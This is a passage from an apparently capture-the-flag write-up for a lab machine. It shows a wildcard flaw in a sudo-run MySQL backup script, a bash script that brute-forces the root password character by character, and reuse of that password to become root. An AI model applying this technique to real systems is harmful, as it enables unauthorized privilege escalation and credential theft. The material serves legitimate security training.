 ```
joshua@codify:/tmp$ echo "k*" | sudo /opt/scripts/mysql-backup.sh

Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
Backing up database: mysql
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
Backing up database: sys
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
All databases backed up successfully!
Changing the permissions
Done!
```
We can write a script that will deduce the password:
```
#!/bin/bash

try_pass() {
  for x in {0..9} {a..z}; do
    if echo "$1$x*" | sudo /opt/scripts/mysql-backup.sh; then
      echo success $1$x
      try_pass $1$x
    fi
  done
}

try_pass ""
```
After running it, we have a password:
```
joshua@codify:/tmp$ ./wrapper.sh 2> /dev/null | grep success
All databases backed up successfully!
success k
[...]
All databases backed up successfully!
success k[...]3
joshua@codify:/tmp$ 
```
We can test it using the mysql command:
```
joshua@codify:/tmp$ /usr/bin/mysql -u root -h 0.0.0.0 -P 3306 -pk[...]3 
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 140
Server version: 5.5.5-10.10.3-MariaDB-1:10.10.3+maria~ubu2204 mariadb.org binary distribution

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> 
```
This is the correct password. Let's try it on the `root` account:
```
joshua@codify:~$ su root
Password: k[...]3
root@codify:/home/joshua# cat /root/root.txt 
```